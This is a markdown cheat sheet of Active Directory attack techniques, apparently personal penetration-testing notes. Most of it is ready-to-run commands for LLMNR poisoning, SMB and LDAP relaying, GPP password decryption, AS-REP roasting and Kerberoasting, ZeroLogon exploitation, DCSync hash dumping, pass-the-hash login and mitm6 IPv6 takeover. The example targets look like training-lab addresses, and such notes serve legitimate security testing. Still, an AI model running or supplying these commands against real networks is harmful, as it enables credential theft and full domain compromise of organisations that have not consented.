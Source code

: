 # Active Directory

[Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

## LLMNR Poisoning

LLMNR is like DNS on an internal windows network
Listen for connections on wrong network drives and retrieve hashes

(Impacket toolkit required)

```
responder -I eth0 -rdwv
```

Password cracking with hashcat (NTLMv2)

```
hashcat -m 5600 hash.txt rockyou.txt --force
```

## SMB Relay

Relay hashes we gathered and gain access to specific machines. Relayed user credentials must be admin on machine.

### Check if SMB signing is disabled. (Message signing is enabled but not required)

```
nmap --script=smb2-security-mode.nse -p445 192.168.57.0

Save relevant hosts to targets.txt
```

Disable smb and http on responder.conf

```
nano /etc/responder/Responder.conf
```

Start listening for events on responder

```
python responder.py -I eth0 -rdwv
```

Initialize relay

```
ntlmrelayx.py -tf targets.txt -smb2support
```

Retrieve SAM hashes

## Abusing Group Policy Preferences (GPP)

Find the Groups.xml file.

```
\\DOMAIN\SYSVOL\domain\Policies\RANDOMOBJECTS\Machine\Preferences\Groups\Groups.xml
or
findstr /S /I cpassword \\domain.local\sysvol\domain.local\policies\*.xml
```
Retrieve the cpassword hash. Decrypt.

```
gpp-decrypt hash
```

Use can use the credentials with psexec.py or maybe try kerberoasting

## Kerberos (AS-REP Roasting)

Run impacket/GetNPUsers.py to get the users that don't have the require pre-authentication option

```
GetNPUsers.py -dc-ip IP -no-pass -userfile user.txt
```

Crack the hashes found

Use evil-winrm to connect to the box using the credentials found

Use ntlmrelay.py from Impacket to relay any changes made to LDAP.

```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

Authenticate by visiting http://localhost/privexchange (any directory will work, this is random). This sets the user ad Domain Admin.

### Abusing ZeroLogon

```
python3 zerologon_check.py DC IP
python3 cve-2020-1472-exploit.py DC IP
```

Use Impacket’s secretsdump.py to perform the DCSync attack, gathering all the user hashes:

```
secretsdump.py -just-dc DOMAIN/DC\$@IP

secretsdump.py htb.local/user:password@10.10.10.161 -just-dc -outputfile secrets-dump.txt
```

Login using the Administrator hash

```
evil-winrm -u Administrator -i 10.10.10.161 -H '32693b11e6aa90eb43d32c72a07ceea6'

In order to find the plain password hex and restore the password
secretsdump.py administrator@IP -hashes HASH
python3 restorepassword.py DOMAIN/DC@DC_HOSTNAME -target-ip IP -hexpass HEXPASS
```

### Kerbrute

Kerbrute is a popular enumeration tool used to brute-force and enumerate valid active-directory users by abusing the Kerberos pre-authentication.

You need to add the DNS domain name along with the machine IP to /etc/hosts inside of your attacker machine:
10.10.117.212 CONTROLLER.local

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

### Harvesting Tickets w/ Rubeus

On the target machine

```
Rubeus.exe harvest /interval:30

Rubeus.exe kerberoast
This will dump the Kerberos hash of any kerberoastable users
```

### Dumping KRBASREP5 Hashes w/ Rubeus

```
Rubeus.exe asreproast
```

Crack the resulting hashes

## Ipv6 DNS Takeover via mitm6

[GitHub - fox-it/mitm6: pwning IPv4 via IPv6](https://github.com/fox-it/mitm6)

```
mitm6 -d marvel.local
```

Setup relay attack

```
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

[The worst of both worlds: Combining NTLM Relaying and Kerberos delegation - dirkjanm.io](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
